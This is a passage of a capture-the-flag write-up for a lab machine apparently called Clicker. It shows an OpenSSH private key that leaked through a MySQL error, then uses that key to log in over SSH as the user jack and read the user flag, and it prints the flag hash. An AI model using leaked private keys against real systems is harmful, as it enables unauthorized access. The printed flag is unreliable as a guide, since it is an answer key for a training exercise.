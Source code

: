 ```
EAAAGBALOHkGlh3uOYhkongx262gGIEHTMJTBj7edCpjFAL1oAFds5T/P9WCf7Us4KEfRZ
KPCNVKS5xwi89hM7G/zKywnvJxuU5Wya60OB3Kp0uEyjew2e11tG7qd2sstZAAGfVKLenq
f3pDPBPu/9/VWeX3tRcGY+IkSiPoPwVUBXJbICtNgefeBpDs99z/2c7Xto1U4Jst/obTxO
TMt9YtpV4el1n3qYgToxvpkA4NjskgKYWztUmzIrKMD9WknsSjIeyK+iJT7p7sN5f5bsr0
RgzfH8rpk3iF1QHT3zqjKkzlRAqO4QKGPrmFin4h8Tl+H6Pv3zcHXH3LQVJqa+TccdBgh9
cC5x7G8fv6AZD88bs3fgXBjWaexT/HJ/nRBc9rcvC7NDK/l1uaH4rxMK9/nt9DoLaS+kIT
tni4mVayFzh4j81uPXpr+MYbqDxdxP+QgOmpHkG2xgKaU4vhARvS4a9OHPRNrgkiz4mah4
lYgK3FG218VjF9jT0icw7EOMXmKhbQAAAAMBAAEAAAGACLYPP83L7uc7vOVl609hvKlJgy
FUvKBcrtgBEGq44XkXlmeVhZVJbcc4IV9Dt8OLxQBWlxecnMPufMhld0Kvz2+XSjNTXo21
1LS8bFj1iGJ2WhbXBErQ0bdkvZE3+twsUyrSL/xIL2q1DxgX7sucfnNZLNze9M2akvRabq
DL53NSKxpvqS/v1AmaygePTmmrz/mQgGTayA5Uk5sl7Mo2CAn5Dw3PV2+KfAoa3uu7ufyC
kMJuNWT6uUKR2vxoLT5pEZKlg8Qmw2HHZxa6wUlpTSRMgO+R+xEQsemUFy0vCh4TyezD3i
SlyE8yMm8gdIgYJB+FP5m4eUyGTjTE4+lhXOKgEGPcw9+MK7Li05Kbgsv/ZwuLiI8UNAhc
9vgmEfs/hoiZPX6fpG+u4L82oKJuIbxF/I2Q2YBNIP9O9qVLdxUniEUCNl3BOAk/8H6usN
9pLG5kIalMYSl6lMnfethUiUrTZzATPYT1xZzQCdJ+qagLrl7O33aez3B/OAUrYmsBAAAA
wQDB7xyKB85+On0U9Qk1jS85dNaEeSBGb7Yp4e/oQGiHquN/xBgaZzYTEO7WQtrfmZMM4s
SXT5qO0J8TBwjmkuzit3/BjrdOAs8n2Lq8J0sPcltsMnoJuZ3Svqclqi8WuttSgKPyhC4s
FQsp6ggRGCP64C8N854//KuxhTh5UXHmD7+teKGdbi9MjfDygwk+gQ33YIr2KczVgdltwW
EhA8zfl5uimjsT31lks3jwk/I8CupZGrVvXmyEzBYZBegl3W4AAADBAO19sPL8ZYYo1n2j
rghoSkgwA8kZJRy6BIyRFRUODsYBlK0ItFnriPgWSE2b3iHo7cuujCDju0yIIfF2QG87Hh
zXj1wghocEMzZ3ELIlkIDY8BtrewjC3CFyeIY3XKCY5AgzE2ygRGvEL+YFLezLqhJseV8j
3kOhQ3D6boridyK3T66YGzJsdpEvWTpbvve3FM5pIWmA5LUXyihP2F7fs2E5aDBUuLJeyi
F0YCoftLetCA/kiVtqlT0trgO8Yh+78QAAAMEAwYV0GjQs3AYNLMGccWlVFoLLPKGItynr
Xxa/j3qOBZ+HiMsXtZdpdrV26N43CmiHRue4SWG1m/Vh3zezxNymsQrp6sv96vsFjM7gAI
JJK+Ds3zu2NNNmQ82gPwc/wNM3TatS/Oe4loqHg3nDn5CEbPtgc8wkxheKARAz0SbztcJC
LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
```

I put the key into `jack.key` on my local machine and ran the following:

```
$ chmod 600 jack.key
$ ssh jack@clicker.htb -i jack.key
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
...
-bash-5.1$ cat user.txt
52451aacf5ceeb84caf5355fe3d2d30f
```

And there's our user flag! 

Flag: `52451aacf5ceeb84caf5355fe3d2d30f`

## Root Flag
